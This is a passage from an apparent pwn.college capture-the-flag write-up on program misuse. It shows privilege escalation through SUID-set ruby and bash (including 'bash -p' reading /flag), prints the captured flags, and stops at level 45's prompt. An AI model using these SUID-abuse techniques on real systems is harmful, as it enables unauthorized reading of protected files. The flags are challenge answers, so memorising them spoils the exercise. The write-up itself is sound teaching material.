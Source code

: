 We have to use the `ruby` utility to execute the script.

```
hacker@program-misuse~level43:~$ ruby babysuid43.rb 
pwn.college{s56sho2vlj9p-Sf15svFloGYQW4.0VN4EDL4ITM0EzW}
```

&nbsp;

## level 44

```
hacker@program-misuse~level44:/$ /challenge/babysuid_level44 
Welcome to /challenge/babysuid_level44!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/bash.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level44) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/bash!
```

Bash is a scripting language. As such, we can use the following script to read the `/flag`.

```bash
cat /flag
```

We have to use the `bash` along with the `-p` option to execute the script.

```
hacker@program-misuse~level44:~$ bash -p babysuid44.sh 
pwn.college{QEuZLuuRJEooZKOqim6yd5k2dvS.0lN4EDL4ITM0EzW}
```

&nbsp;

## level 45

```
hacker@program-misuse~level45:/$ /challenge/babysuid_level45 
Welcome to /challenge/babysuid_level45!

This challenge is part of a series of programs that
just straight up weren't designed to let you read files.

I just set the SUID bit on /usr/bin/date.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level45) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/date!
```
